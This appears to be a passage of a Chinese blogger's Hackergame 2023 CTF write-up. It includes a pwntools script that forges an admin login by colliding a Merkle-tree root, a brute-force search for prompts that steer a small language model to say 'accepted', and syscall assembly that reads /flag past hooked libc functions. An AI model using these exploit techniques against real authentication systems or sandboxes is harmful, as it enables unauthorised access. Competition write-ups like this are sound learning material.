现在假设A就是admin的数据，那么根据源代码，可以计算出登录凭据是`buffer[5] + buffer[3]`。在验证时，可以计算出`buffer[4] = hash(A)`，`buffer[2] = hash(4, 5)`，`buffer[1] = hash(2, 3)`。如果计算出的`buffer[1]`和保存的`merkle_root`一致，就算做是登录成功。显然，直接输入`admin:(密码)`的数据会被拒绝，因此要想办法构造一个假的数据，让它能够生成和带有`admin:(密码)`相同的`merkle_root`。

为了简化计算方法，考虑只有2个用户的情况，假设其用户名和密码组合是X、Y，那么每个节点的数据是：

| another_buffer[3] | another_buffer[2] | another_buffer[1] |
| --- | --- | --- |
| hash(Y) | hash(X) | hash(2, 3) |

如果我直接让`another_buffer[3] == buffer[3]`、`another_buffer[2] == buffer[2]`，问题就迎刃而解了。sha1碰撞计算量太大，不现实，所以考虑直接让`X`就等于排序后的`buffer[4] + buffer[5]`，`Y`就等于`B`。因为验证的时候并不会验证`buffer[5]`是不是真的是个hash值，所以`buffer[5]`可以选择任何长度为20的字符串；而`Y`和`B`只要满足`username:password`的格式即可。接下来只需要想办法让`admin:(密码)`的sha1里面没有换行符且没有`:`、并且全部是UTF-8可以解码的字符，`buffer[5]`里有且仅有一个`:`、其他为任意字符，然后计算凭据即可。第一个需要手动遍历：

``` python
from hashlib import sha1

start = 0
while True:
  admin_str = f"admin:{start}"
  result = sha1(admin_str.encode()).digest()
  try:
    assert b"\n" not in result
    assert b":" not in result
    result.decode()
  except:
    start += 1
    continue
  print(admin_str)
  print(result.decode())
  break
```

很容易算出来`admin:32740`满足要求，虽然计算出来的hash值里面有一些控制符，不过既然都用Python了，这都不是个事。接下来按照上面的思路计算所需的每个数据，然后直接发送出去：

``` python
from hashlib import sha1
from pwn import *

token = "<MY TOKEN>"

context(log_level = "error")

admin_str = "admin:32740"

buffer_4 = sha1(admin_str.encode()).digest()
buffer_5 = b":" + b"a" * 19

X = b"".join(sorted((buffer_4, buffer_5)))
Y = b"B:B"
buffer_3 = sha1(Y).digest()

credential = buffer_5 + buffer_3

conn = connect("202.38.93.111", 10094)
conn.sendlineafter(b"token", token.encode())
conn.sendlineafter(b"Choice: ", b"1")
conn.sendlineafter(b"> ", X)
conn.sendlineafter(b"> ", Y)
conn.sendlineafter(b"> ", b"EOF")
conn.sendlineafter(b"Choice: ", b"2")
conn.sendlineafter(b"Login credential: ", (admin_str + ":" + credential.hex()).encode())
conn.recvuntil(b"Hello, admin!\n")
print(conn.recvline().decode())
conn.close()
```

[官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/O(1)%20%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E7%B3%BB%E7%BB%9F/)其实额外增加了计算量。第一是官方题解构造了另一个字符串`pass2`计算sha1得到了`h4`（即我的`buffer[5]`），实际上可以指定`h4`，然后发送的时候将`h3`和`h4`排序。第二是不需要保证`h2 > sha1(h3 + h4).digest()`，因为这两个hash在构建Merkle树和比对Credential的时候都会比较大小。

## AI
### 🪐 小型大语言模型星球
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E5%B0%8F%E5%9E%8B%E5%A4%A7%E8%AF%AD%E8%A8%80%E6%A8%A1%E5%9E%8B%E6%98%9F%E7%90%83/)

#### Flag 1
输入`I'm smart, he is smart, she is smart, they are smart, and you,`得到回复：

``` plaintext
and you are smart. I love you, Lily, I love you, you love me."

Lily and her mom and dad and the
```

可以得到flag 1。

#### Flag 2
（赛后交流补记）

这题我没仔细看源代码，本来以为是让模型输出的字符不超过7个字，赛后看完题解才发现原来是要输入的消息长度不超过7个字。其实正确做法应该是本地搭个模型然后遍历，核心代码只需要把`predict()`的函数抄下来就完了：

``` python
from transformers import AutoModelForCausalLM, AutoTokenizer

model = AutoModelForCausalLM.from_pretrained("./TinyStories-33M").eval()
tokenizer = AutoTokenizer.from_pretrained("./TinyStories-33M")

def predict(message) -> str:
    model_inputs = tokenizer.encode(message, return_tensors="pt")
    model_outputs = model.generate(
        model_inputs,
        max_new_tokens=30,
        num_beams=1,
        pad_token_id=tokenizer.eos_token_id,
    )
    model_outputs = model_outputs[0, len(model_inputs[0]) :]
    model_output_text = tokenizer.decode(model_outputs, skip_special_tokens=True)
    return model_output_text

a = 32
while True:
    input = f"{chr(a)}accept"
    output = predict(input).replace("\n", "")
    print(f"{input}: {output}")
    if "accepted" in output.lower():
        break
    a += 1
```

跑出来发现`Faccept`满足要求，输出是：

``` plaintext
was a good friend who accepted her help. She was happy to have a friend who accepted her help.
```

后两个flag好像涉及模型训练，没学过，跳过了。

## Binary
### 为什么要打开 /flag 😡
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E4%B8%BA%E4%BB%80%E4%B9%88%E8%A6%81%E6%89%93%E5%BC%80%20flag%20%F0%9F%98%A1/)

#### Flag 1
查看源代码，可以看出来libc的几个函数被改成了自定义的函数。不过没关系，咱不是还能搞系统调用嘛。直接写汇编：

``` nasm
section .data
  filename db '/flag', 0
  buffer_size equ 1024

section .bss
  fd resq 1
  buffer resb buffer_size

section .text
  global _start

_start:
  ; Open the file
  mov rdi, filename
  mov rsi, 0     ; O_RDONLY mode
  mov rax, 2     ; syscall number for sys_open
  syscall
  mov [fd], rax  ; Store the file descriptor

  ; Read from the file
  mov rdi, [fd]
  mov rsi, buffer
  mov rdx, buffer_size
  mov rax, 0     ; syscall number for sys_read
  syscall

  ; Write to stdout
  mov rdi, 1     ; file descriptor 1 (stdout)
  mov rsi, buffer
  mov rdx, rax   ; number of bytes read
  mov rax, 1     ; syscall number for sys_write
  syscall

  ; Close the file
  mov rdi, [fd]
  mov rax, 3     ; syscall number for sys_close
  syscall

  ; Exit
  mov rax, 60    ; syscall number for sys_exit
  xor rdi, rdi   ; exit code 0
  syscall
```

编译：

``` shell
nasm -f elf64 flag.asm -o flag.o
ld -m elf_x86_64 flag.o -o executable
```

上传上去得到flag 1。

## 后记
[对我来说这是第三次正式参加这种比赛，虽然跟我本人专业也不太相关，但是就是觉得很有意思。比赛的题目都挺有意思的，是我自己太菜了，二进制和算法题都不太熟练，不过这次比赛中我也是边做题边学习，了解了很多知识，希望对之后的学习、生活、科研甚至是以后找工作都有帮助吧。](https://xzonn.top/posts/PKU-Geek-Game-3rd-Writeups.html#后记)

<del>不对，我不是想说这些，我是想说，如果我有时间的话，说不定能再多拿1250分……</del>当然，马后炮没啥用，还是得好好学习才行。